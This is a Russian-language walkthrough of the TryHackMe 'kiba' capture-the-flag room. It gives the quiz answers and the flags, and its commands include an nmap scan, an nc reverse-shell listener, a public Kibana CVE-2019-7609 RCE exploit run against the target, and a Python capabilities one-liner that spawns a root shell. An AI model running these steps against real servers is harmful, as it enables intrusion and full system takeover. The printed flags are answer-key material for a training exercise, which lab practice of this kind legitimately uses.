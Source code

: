 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [kiba](https://tryhackme.com/r/room/kiba) 

Всего 1 заданиe:
## Задание 1
Сможете ли вы выполнить задание?
 Загрузка и настройка машины  может занять до 7 минут.
### Ответьте на вопросы ниже
Какая уязвимость свойственна языкам программирования с наследованием на основе прототипов?
```commandline
nmap -sC -sV -p- <IP>
```
```commandline
Prototype pollution
```
Какая версия панели визуализации установлена на сервере?
```commandline
6.5.4
```
Какой номер CVE для этой уязвимости? Он будет в формате: CVE-0000-0000
```commandline
CVE-2019-7609
```
Взломайте машину и найдите user.txt
```commandline
nc -nlvp 4444
git clone https://github.com/LandGrey/CVE-2019-7609.git
cd CVE-2019-7609
python CVE-2019-7609-kibana-rce.py -u http://<IP>:5601 -host <IP-yuor> -port 4444 --shell
cat /home/kiba/user.txt
```
```commandline
THM{1s_easy_pwn3d_k1bana_w1th_rce}
```
Возможности — это концепция, которая обеспечивает систему безопасности, позволяющую «разделить» привилегии root на 
различные значения. 
```commandline
Ответ не нужен
```
Как бы вы рекурсивно перечислили все эти возможности?
```commandline
getcap -r /
```
Повысить привилегии и получить root.txt
```commandline
getcap -r / 2>/dev/null
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
cat /root/root.txt
```
```commandline
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)